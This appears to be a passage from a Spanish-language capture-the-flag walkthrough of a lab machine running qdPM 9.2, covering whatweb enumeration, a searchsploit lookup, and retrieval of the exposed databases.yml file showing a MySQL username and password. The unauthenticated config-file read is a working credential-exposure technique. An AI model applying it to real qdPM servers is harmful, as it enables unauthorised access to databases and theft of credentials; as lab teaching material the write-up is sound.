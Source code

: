 ## Enumeración

Con la herramienta **whatweb** vamos a ver que tecnologías está utilizando la página web que está corriendon en el puerto 80

```
❯ whatweb http://192.168.28.121
http://192.168.28.121 [200 OK] Apache[2.4.48], Bootstrap, Cookies[qdPM8], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[192.168.28.121], JQuery[1.10.2], PasswordField[login[password]], Script[text/javascript], Title[qdPM | Login], X-UA-Compatible[IE=edge]
```

Entre otras cosas, nos damos cuenta de que la página está usando qdPM (Es una herramienta de gestión de proyectos basada en web)

(Imagen de la página web)

## Explotación

Vemos que la versión de **qdPM** es la 9.2, con una pequeña búsqueda con **searchsploit** vemos que esa versión tiene registradas dos vulnerabilidades:

```
$ searchsploit qdPM 9.2
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
qdPM 9.2 - Cross-site Request Forgery (CSRF)                                                                                                          | php/webapps/50854.txt
qdPM 9.2 - Password Exposure (Unauthenticated)                                                                                                        | php/webapps/50176.txt
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

En este caso vamos a elegir la segunda (Password Exposure), que permitirá descargarnos un archivo yml con la contraseña de acceso a la base de datos, la ruta es `http://<website>/core/config/databases.yml`

```
$ cat databases.yml
  
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
  
```

